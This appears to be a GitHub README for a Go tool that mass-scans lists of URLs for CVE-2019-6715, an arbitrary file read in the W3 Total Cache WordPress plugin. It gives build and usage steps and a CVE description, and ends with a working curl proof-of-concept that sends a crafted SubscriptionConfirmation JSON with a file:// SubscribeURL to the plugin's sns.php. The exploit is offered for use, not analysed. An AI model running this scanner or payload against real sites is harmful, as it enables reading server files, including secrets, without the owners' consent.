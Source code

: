 # cve-2019-6715

### Shout out to TomNomNom for 99.9% of his code....

### Build

```
go get github.com/fatih/color
go build
```

### Usage

```
cat list.txt | ./2019-6715
```

All vuln urls are logged in text.log


CVE 2019-6715
---

Description: pub/sns.php in the W3 Total Cache plugin before 0.9.4 for WordPress allows remote attackers to read arbitrary files via the SubscribeURL field in SubscriptionConfirmation JSON data.

Vulnerability Type: arbitrary file read

Vendor of Product: Wordpress W3 Total Cache plugin by Frederick Townes

Affected Product Code Base: W3 Total Cache - 0.9.2.6 - 0.9.3, fixed in 0.9.4

Affected Component: Affected source code file: w3-total-cache/pub/sns.php

Exploit - PoC:
---


```
curl -X PUT --data '{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"file://file_path"}' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36' http://victim.com/wp-content/plugins/w3-total-cache/pub/sns.php
```
